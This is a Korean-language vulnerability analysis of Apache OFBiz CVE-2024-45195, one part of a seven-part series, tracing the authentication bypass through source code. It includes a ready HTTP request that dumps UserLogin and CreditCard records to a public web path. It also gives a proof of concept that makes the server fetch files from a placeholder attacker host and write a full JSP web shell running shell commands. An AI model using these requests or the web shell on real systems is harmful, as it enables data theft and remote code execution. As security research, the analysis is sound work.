# Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45195 (5/7)

> 🔖 **Apache OFBiz 1-Day 취약점 살펴보기**
> 1. [Apache OFBiz 1-Day 취약점 살펴보기: 개요 (1/7)](/Apache%20OFBiz%201-Day%20Analysis/README.md)
> 2. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-32113 (2/7)](/Apache%20OFBiz%201-Day%20Analysis/02.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-32113/README.md)
> 3. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-36104 (3/7)](/Apache%20OFBiz%201-Day%20Analysis/03.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-36104/README.md)
> 4. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-38856 (4/7)](/Apache%20OFBiz%201-Day%20Analysis/04.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-38856/README.md) 
> 5. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45195 (5/7)](/Apache%20OFBiz%201-Day%20Analysis/05.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45195/README.md) 
> 6. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45507 (6/7)](/Apache%20OFBiz%201-Day%20Analysis/06.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45507/README.md) 
> 7. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-47208 (7/7)](/Apache%20OFBiz%201-Day%20Analysis/07.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-47208/README.md) 

# Introduction

네 번째 취약점인 `CVE-2024-45195` 취약점에 대해 알아보겠습니다. 해당 취약점은 Apache OFBiz 버전 18.12.15 이하에서 발생되는 강제 브라우징(Forced Browsing) 취약점입니다.

이전에 발생한 세 가지 취약점(`CVE-2024-32113`, `CVE-2024-36104`, `CVE-2204-38856`)과 동일하게 URI 처리 메커니즘에서 컨트롤러(Controller)와 뷰(View)의 매핑 처리과정에서 발생하는 잘못된 인증 처리로 인해 발생됩니다.

즉, `requestUri` 와 `overrideViewrUri` 에 대한 구분된 처리로 인해 발생하는 취약점으로 아래 분석을 통해 상세히 살펴보겠습니다.

> 💿 Apache OFBiz 18.12.15 Download Link
>
> [Apache Download Mirrors - v18.12.15 Download Link](https://www.apache.org/dyn/closer.lua/ofbiz/apache-ofbiz-18.12.15.zip)

## Vulnerability Detail

| CVE | CVE-2024-45195 |
| --- | --- |
| Vulnerability | Forced Browsing |
| CVSS(3.x) | `HIGH` 7.5 |
| Product | Apache OFBiz |
| Version | <= 18.12.15 |
| Link | [`https://nvd.nist.gov/vuln/detail/CVE-2024-45195`](https://nvd.nist.gov/vuln/detail/CVE-2024-45195) |
| Description | Direct Request ('Forced Browsing') vulnerability in Apache OFBiz. This issue affects Apache OFBiz: before 18.12.16. Users are recommended to upgrade to version 18.12.16, which fixes the issue. |

# Analysis

해당 `CVE-2024-45195` 취약점에서는 `ProgramExport` 에 대한 접근이 불가능하기 때문에 인증 없이 접근 가능한 다른 엔드포인트를 찾아야 합니다. 

✅ `ProgramExport.groovy` 의 권한 검사 로직

```groovy
if (!security.hasPermission('ENTITY_MAINT', userLogin)) {
    return
}
```

이에 `EntityScreens.xml` 에서 `<script>` 를 조회하면 다음의 결과를 확인할 수 있습니다.

✅ /framework/webtools/widget/EntityScreens.xml 파일 내 일부

```xml
<!-- ...생략... -->
<script location="component://webtools/groovyScripts/entity/EntitySQLProcessor.groovy"/>
<!-- ...생략... -->
<script location="component://webtools/groovyScripts/entity/ProgramExport.groovy"/>
<!-- ...생략... -->
<script location="component://webtools/groovyScripts/entity/EntityMaint.groovy"/>
<!-- ...생략... -->
<script location="component://webtools/groovyScripts/entity/FindGeneric.groovy"/>
<!-- ...생략... -->
<script location="component://webtools/groovyScripts/entity/ViewGeneric.groovy"/>
<!-- ...생략... -->
<script location="component://webtools/groovyScripts/entity/ViewRelations.groovy"/>
<!-- ...생략... -->
<script location="component://webtools/groovyScripts/entity/EntityRef.groovy"/>
<!-- ...생략... -->
<script location="component://webtools/groovyScripts/entity/EntityRefList.groovy"/>
<!-- ...생략... -->
<script location="component://webtools/groovyScripts/entity/CheckDb.groovy"/>
<!-- ...생략... -->
<script location="component://webtools/groovyScripts/entity/EntityPerformanceTest.groovy"/>
<!-- ...생략... -->
<script location="component://webtools/groovyScripts/entity/XmlDsDump.groovy"/>
<!-- ...생략... -->
<script location="component://webtools/groovyScripts/entity/ModelInduceFromDb.groovy"/>
<!-- ...생략... -->
```

## xmldsdump

위에서 확인한 스크립트 중 `XmlDsDump.groovy` 는 권한 검사 로직이 존재하지 않습니다.



이에 해당 스크립트와 관련된 컨트롤러를 살펴보면, `xmldsdump` URI가 요청될 때, 스크린 위젯(`<screen name="xmldsdump">`)이 렌더링되는데 이때, `XmlDsDump.groovy` 스크립트가 실행되는 것을 확인할 수 있습니다.

✅ /framework/webtools/webapp/webtools/WEB-INF/controller.xml 파일 내 일부

```xml
<request-map uri="xmldsdump">
    <security https="true" auth="true"/>
    <response name="success" type="view" value="xmldsdump"/>
</request-map>
```

✅ /framework/webtools/widget/EntityScreens.xml 파일 내 일부

```xml
<screen name="xmldsdump">
    <section>
        <actions>
            <property-map resource="WebtoolsUiLabels" map-name="uiLabelMap" global="true"/>
            <set field="titleProperty" value="PageTitleEntityExport"/>
            <set field="tabButtonItem" value="xmlDsDump"/>
            <set field="entityFrom" from-field="parameters.entityFrom" type="Timestamp"/>
            <set field="entityThru" from-field="parameters.entityThru" type="Timestamp"/>
            <script location="component://webtools/groovyScripts/entity/XmlDsDump.groovy"/>
        </actions>
        <widgets>
            <decorator-screen name="CommonImportExportDecorator" location="${parameters.mainDecoratorLocation}">
                <decorator-section name="body">
                    <screenlet>
                        <platform-specific><html><html-template location="component://webtools/template/entity/XmlDsDump.ftl"/></html></platform-specific>
                    </screenlet>
                </decorator-section>
            </decorator-screen>
        </widgets>
    </section>
</screen>
```

`XmlDsDump` 서비스는 OFBiz 프레임워크에 사용되는 데이터베이스(엔티티)를 특정 경로에 XML 포맷의 데이터를 내보내는 서비스 입니다.



이 서비스를 요청할 때, 전송되는 파라미터는 다음과 같습니다.

✅ `XmlDsDump` 서비스 요청 파라미터

| 파라미터 | 설명 |
| --- | --- |
| `outpath` | XML 파일을 저장할 경로 |
| `maxcords` | 최대 레코드 수 |
| `filename` | 저장할 XML 파일 이름 |
| `entityFrom_i18n` | 시작할 엔티티 범위 지정 |
| `entityFrom` | 특정 엔티티 이름으로부터 덤프 시작 |
| `entityThru_i18n` | 종료할 엔티티 범위 지정 |
| `entityThru` | 특정 엔티티 이름까지 덤프 수행 |
| `entitySyncId` | 특정 동기화 ID에 해당하는 데이터만 덤프 |
| `preConfiguredSetName` | 사전 설정된 엔티티 세트 |
| `entityName` | XML로 내보낼 특정 엔티티 이름 (중복 가능) |

위 요청 파라미터를 보면 `outpath` 에 XML 파일을 저장할 경로를 직접 지정할 수 있습니다. 다시 말해, 외부에서 접근 가능한 URL 경로(e.g. `js`, `css` 리소스 경로)를 지정하여 원하는 데이터를 유출시킬 수 있습니다.

예를 들어, Apache OFBiz 프레임워크에서 웹 리소스 경로(`jquery-3.5.1.min.js`)는 아래의 경로에 저장되어 있습니다.

✅ Apache OFBiz 프레임워크에서 웹 리소스 `jquery-3.5.1.min.js` 가 저장되는 경로

- Apache OFBiz 프로젝트 상 위치(`/themes/common-theme/webapp/common/js/jquery`)
    
    
    
- 웹 URL 경로 상 위치(`/common/js/jquery`)



즉, `UserLogin`, `CreditCard` 엔티티 정보를 추출하고 저장 경로를 리소스가 저장되는 `/themes/common-theme/webapp/common` 으로 지정할 경우, URL 요청을 통해 추출된 데이터에 접근할 수 있습니다. 이에 대한 요청은 다음과 같습니다.

✅ `/webtools/control/main/xmldsdump` 요청 패킷

```
POST /webtools/control/main/xmldsdump HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 210

outpath=./themes/common-theme/webapp/common&maxrecords=&filename=dump.xml&entityFrom_i18n=&entityFrom=&entityThru_i18n=&entityThru=&entitySyncId=&preConfiguredSetName=&entityName=UserLogin&entityName=CreditCard
```

위 요청에 의해 생성된 `dump.xml` 은 Apache OFBiz 프레임워크 프로젝트 경로에서 확인할 수 있습니다.



또한, `/common/dump.xml` URL을 브라우저를 통해 요청하면 다음과 같이 `UserLogin` 과 `CreditCard` 엔티티 정보가 담긴 파일의 내용을 확인할 수 있습니다.



결과적으로 요청 URI `/webtools/control/main/xmldsdump` 를 요청할 경우 `requestUri` 는 `main` 이라 인증 없이 접근 가능하며, 렌더링 되는 뷰는 `xmldsdump` 이므로, 해당 뷰가 렌더링될 때 실행되는 `XmlDsDump.groovy` 스크립트에 의해 전송되는 파라미터가 처리되어 엔티티 정보(`entityName`의 값)가 XML 파일(`outpath` + `filename`)로 생성됩니다. 이렇게 생성된 파일은 외부에서 접근 가능한 경로에 저장되어 누구나 접근할 수 있게 되므로 심각한 정보 유출 취약점이 발생합니다.

## viewdatafile

또한, `EntityScreens.xml` 말고도 `MiscScreens.xml` 에 정의된 스크립트 중 권한 검사 로직이 존재하지 않는 `ViewDataFile.groovy` 스크립트도 존재합니다.



위 스크립트는 다음과 같이 `viewdatafile` 스크린 위젯이 뷰로 렌더링될 때 실행되는 것을 확인할 수 있습니다.

🔍 /framework/webtools/widget/MiscScreens.xml 파일 내 일부

```xml
<screen name="viewdatafile">
    <section>
        <actions>
            <set field="headerItem" value="main"/>
            <set field="titleProperty" value="WebtoolsDataFileMainTitle"/>
            <set field="tabButtonItem" value="data"/>
            <script location="component://webtools/groovyScripts/datafile/ViewDataFile.groovy"/>
        </actions>
        <widgets>
            <decorator-screen name="CommonImportExportDecorator" location="${parameters.mainDecoratorLocation}">
                <decorator-section name="body">
                    <screenlet>
                        <platform-specific><html><html-template location="component://webtools/template/datafile/ViewDataFile.ftl"/></html></platform-specific>
                    </screenlet>
                </decorator-section>
            </decorator-screen>
        </widgets>
    </section>
</screen>
```

해당 스크린 위젯은 `controller.xml`에 정의된 컨트롤러의 `viewdatafile` URI가 요청될 때 참조되는 것을 확인할 수 있습니다.

🔍 /framework/webtools/webapp/webtools/WEB-INF/controller.xml 파일 내 일부

```xml
<!-- 생략 -->
<request-map uri="viewdatafile">
    <security https="true" auth="true"/>
    <response name="success" type="view" value="viewdatafile"/>
</request-map>
<!-- 생략 -->
<view-map name="viewdatafile" type="screen" page="component://webtools/widget/MiscScreens.xml#viewdatafile"/>
<!-- 생략 -->
```

즉, URI 요청 경로를 `/webtools/control/main/viewdatafile` 으로 요청할 경우 인증 검사는 `requestUri` 의 값(`main`)에 대한 인증을 수행하지만 이는 통과되고, 실제 뷰가 렌더링되는 것은 `overrideViewUri` 의 값(`viewdatafile`)이 렌더링되므로 이때,  `ViewDataFile.groovy` 스크립트가 실행됩니다.

### ViewDataFile.groovy 스크립트 분석

다음은 `ViewDataFile.groovy` 스크립트 로직에 대해 알아보겠습니다. 해당 로직은 실제 데이터가 담겨 있는 `DATAFILE_LOCATION` 을 데이터가 정의된 `DEFINITION_LOCATION` 을 참고하여 데이터를 파일로 저장하는 로직입니다.

> 자세한 내용은 https://github.com/apache/ofbiz-framework/blob/3bee351e39dc5d99f40081b3c5bfa365d787ed6e/framework/datafile/src/docs/asciidoc/datafiles.adoc#L70 을 참고하시기 바랍니다.
> 

1️⃣ 요청 파라미터를 가져와 변수를 초기화 합니다.

```groovy
// 사용자가 입력한 데이터 파일 저장 경로
dataFileSave = request.getParameter("DATAFILE_SAVE")

// 사용자가 입력한 엔티티 XML 파일 저장 경로
entityXmlFileSave = request.getParameter("ENTITYXML_FILE_SAVE") 

// 데이터 파일의 위치
dataFileLoc = request.getParameter("DATAFILE_LOCATION")
// 데이터 정의 파일의 위치
definitionLoc = request.getParameter("DEFINITION_LOCATION")
// 사용할 데이터 정의의 이름
definitionName = request.getParameter("DEFINITION_NAME")
// 데이터 파일이 URL인지 여부 
dataFileIsUrl = null != request.getParameter("DATAFILE_IS_URL")
// 정의 파일이 URL인지 여
definitionIsUrl = null != request.getParameter("DEFINITION_IS_URL")
```

2️⃣ 데이터 파일 및 정의 파일 로드

```groovy
try {
    dataFileUrl = dataFileIsUrl?new URL(dataFileLoc):UtilURL.fromFilename(dataFileLoc)
}
catch (java.net.MalformedURLException e) {
    messages.add(e.getMessage())
}

try {
    definitionUrl = definitionIsUrl?new URL(definitionLoc):UtilURL.fromFilename(definitionLoc)
}
catch (java.net.MalformedURLException e) {
    messages.add(e.getMessage())
}
```

- `dataFileLoc`, `definitionLoc` 의 값을 URL 경로로 변환합니다.

3️⃣ 정의 파일에서 엔티티 목록 가져오기

```groovy
definitionNames = null
if (definitionUrl) {
    try {
        ModelDataFileReader reader = ModelDataFileReader.getModelDataFileReader(definitionUrl)
        if (reader) {
            definitionNames = ((Collection) reader.getDataFileNames()).iterator()
            context.put("definitionNames", definitionNames)
        }
    } catch (Exception e) {
        messages.add(e.getMessage())
    }
}
```

- `ModelDataFileReader reader = ModelDataFileReader.getModelDataFileReader(definitionUrl)`
    
    `definitionUrl` URL 경로의 파일을 `getModelDataFileReader` 로 읽어들입니다.
    
- `definitionNames = ((Collection) reader.getDataFileNames()).iterator()`
    
    읽어들인 파일(`reader`)에 정의된 데이터 파일 이름 목록을 가져와 `definitionNames` 변수를 초기화 합니다.
    

**4️⃣ 데이터 파일 읽기 및 파싱**

```groovy
dataFile = null
if (dataFileUrl && definitionUrl && definitionNames) {
    try {
        dataFile = DataFile.readFile(dataFileUrl, definitionUrl, definitionName)
        context.put("dataFile", dataFile)
    } catch (Exception e) {
        messages.add(e.toString()); Debug.log(e)
    }
}
```

- `dataFile = DataFile.readFile(dataFileUrl, definitionUrl, definitionName)`
    
    데이터 파일(`dataFileUrl`)과 데이터 정의 파일(`definitionUrl`)과 특정 데이터 정의(`definitionName`)를 지정하여 데이터를 `dataFile` 변수에 초기화합니다.
    

5️⃣ 데이터 파일의 메타 정보를 저장

```groovy
if (dataFile) {
    modelDataFile = dataFile.getModelDataFile()
    context.put("modelDataFile", modelDataFile)
}
```

- `context.put("modelDataFile", modelDataFile)`
    
    데이터 파일(`dataFile`)의 메타정보를 저장합니다.
    

6️⃣ 데이터 파일 저장

```groovy
if (dataFile && dataFileSave) {
    try {
        dataFile.writeDataFile(dataFileSave)
        messages.add(uiLabelMap.WebtoolsDataFileSavedTo + dataFileSave)
    } catch (Exception e) {
        messages.add(e.getMessage())
    }
}
```

- `dataFile.writeDataFile(dataFileSave)`
    
    `dataFile` 파일 객체를 `dataFileSave` 에 저장합니다.
    

7️⃣ 엔티티 XML 파일 저장

```groovy
if (dataFile && entityXmlFileSave) {
    try {
        DataFile2EntityXml.writeToEntityXml(entityXmlFileSave, dataFile)
        messages.add(uiLabelMap.WebtoolsDataEntityFileSavedTo + entityXmlFileSave)
    } catch (Exception e) {
        messages.add(e.getMessage())
    }
}
```

- `DataFile2EntityXml.writeToEntityXml(entityXmlFileSave, dataFile)`
    
    데이터 파일(`dataFile`)을 XML 형식으로 변환하여 저장합니다.
    

### 동작 확인

위 스크립트 로직을 정리하면 다음과 같습니다. 먼저, 다음과 같이 파라미터가 셋팅된 상태입니다.

✅ 파라미터 셋팅

| 파라미터 | 예제 값 |
| --- | --- |
| `DEFINITION_LOCATION` | `http://attacker:80/test.xml` |
| `DATAFILE_LOCATION` | `http://attacker:80/test.csv` |
| `DEFINITION_NAME` | `rce` |
| `DATAFILE_SAVE` | `./applications/accounting/webapp/accounting/index.jsp` |
| `DEFINITION_IS_URL` | `true` |
| `DATAFILE_IS_URL` | `true` |

이 상태에서 `viewDataFile.groovy` 스크립트 로직은 다음과 같습니다.

✅ `ViewDataFile.groovy` 스크립트 로직 정리

1. (3️⃣) `DEFINITION_LOCATION` 의 경로(e.g. `http://attacker:80/test.xml`)를 XML 포맷으로 읽어들여 엔티티 목록을 `definitionNames` 변수에 저장합니다. 
    
    🔍 `http://attacker:80/test.xml` 파일 내용
    
    ```xml
    <data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
        <data-file name="rce" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
            <record name="rceentry" limit="many">
                <field name="jsp" type="String" length="605" position="0"></field>
            </record>
        </data-file>
    </data-files>
    ```
    
    ```
    definitionNames = ["<data-file name="rce" ... > ... </data-files>"]
    ```
    
2. (4️⃣) `DATAFILE_LOCATION` 의 경로(e.g. `http://attacker:80/test.csv`)를 파일로 로드한 뒤, `DEFINITION_LOCATION` 경로의 파일을 참고하여 `definitionName` 변수에 저장된 값(`rce`)에 해당하는 데이터를 `dataFile` 변수에 초기화합니다.
    
    🔍 `http://attacker:80/test.csv` 파일 내용(이 값은 `<field name="jsp" ... length="605" position="0">` 에 정의된 대로, 605자 길이를 가진다고 가정합니다.)
    
    ```xml
    <%@ page import='java.io.*' %> ...생략... %>, // 605 자
    ```
    
    ```
    dataFile = <%@ page import='java.io.*' %> ...생략... %>
    ```
    
3. (6️⃣) `dataFile` 의 값을 `DATAFILE_SAVE` 의 경로(e.g. `./applications/accounting/webapp/accounting/index.jsp`)로 저장합니다.
    
    ```
    cat ./applications/accounting/webapp/accounting/index.jsp
    <%@ page import='java.io.*' %> ...생략... %>
    ```
    

결과적으로 `ViewDataFile.groovy` 스크립트를 이용하면, 공격자의 외부 서버로부터 웹 쉘 코드가 담긴 CSV 파일(`DATAFILE_LOCATION`)과 데이터 정의 파일(`DEFINITION_LOCATION`)을 가져와서 Apache OFBiz 프레임워크 프로젝트에 JSP 파일(`DATAFILE_SAVE`)로 저장할 수 있게 됩니다.

이렇게 저장된 JSP 파일은 웹 서버에서 실행 가능한 상태가 되어 원격 코드 실행(RCE) 취약점으로 이어집니다. 이에 대한 내용은 아래 PoC 과정에서 다시 진행해보겠습니다.

# PoC

## 공격자 서버 준비

준비된 서버에 아래의 2개 파일을 저장합니다.

🔍 test.xml

```xml
<data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <data-file name="rce" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
      <record name="rceentry" limit="many">
          <field name="jsp" type="String" length="605" position="0"></field>
      </record>
  </data-file>
</data-files>
```

🔍 test.csv

```xml
<%@ page import='java.io.*' %><%@ page import='java.util.*' %><b>Exploit</b><br><% String getcmd = request.getParameter("cmd"); if (getcmd != null) { out.println("Command: " + getcmd + "<br>"); String cmd1 = "/bin/sh"; String cmd2 = "-c"; String cmd3 = getcmd; String[] cmd = new String[3]; cmd[0] = cmd1; cmd[1] = cmd2; cmd[2] = cmd3; Process p = Runtime.getRuntime().exec(cmd); OutputStream os = p.getOutputStream(); InputStream in = p.getInputStream(); DataInputStream dis = new DataInputStream(in); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine();}} %>,
```

